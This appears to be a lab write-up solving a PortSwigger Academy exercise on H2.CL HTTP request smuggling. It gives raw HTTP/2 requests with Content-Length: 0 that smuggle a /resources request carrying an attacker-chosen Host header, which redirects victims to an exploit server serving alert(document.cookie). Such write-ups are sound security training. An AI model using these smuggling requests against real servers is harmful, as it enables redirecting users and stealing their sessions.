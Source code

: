 #  H2.CL Request Smuggling

## 📌 Lab Details
- **Title**: H2.CL Request Smuggling
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/94fed48630d16b9adc01888e546e50f8e94c1bae77065a94140339f20303ef55?referrer=%2fweb-security%2frequest-smuggling%2fadvanced%2flab-request-smuggling-h2-cl-request-smuggling

## 🔍 Summary
This lab shows how **H2.CL request smuggling** works when a **front-end server downgrades HTTP/2 to HTTP/1.1**, but mishandles `Content-Length`. By smuggling a **partial request** for `/resources`, we can cause the victim’s browser to be redirected to our exploit server, which hosts malicious JavaScript.

## 🛠 Steps to Solve
1. Try smuggling an arbitrary prefix in the body of an HTTP/2 request by including a `Content-Length: 0` header as follows:
   ```sh
   POST / HTTP/2
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Length: 0

   SMUGGLED
   ```
2. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
3. Using Burp Repeater, notice that if you send a request for GET /resources, you are redirected to `https://YOUR-LAB-ID.web-security-academy.net/resources/`.
4. Create the following request to smuggle the start of a request for `/resources`, along with an arbitrary `Host` header:
   ```sh
   POST / HTTP/2
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Length: 0

   GET /resources HTTP/1.1
   Host: foo
   Content-Length: 5

   x=1
   ```
5. Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
6. Go to the exploit server and change the file path to `/resources`. In the body, enter the payload `alert(document.cookie)`, then store the exploit.
7. In Burp Repeater, edit your malicious request so that the `Host` header points to your exploit server:
   ```sh
   POST / HTTP/2
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Length: 0

   GET /resources HTTP/1.1
   Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
   Content-Length: 5

   x=1
   ```
8. Send the request a few times and confirm that you receive a redirect to the exploit server.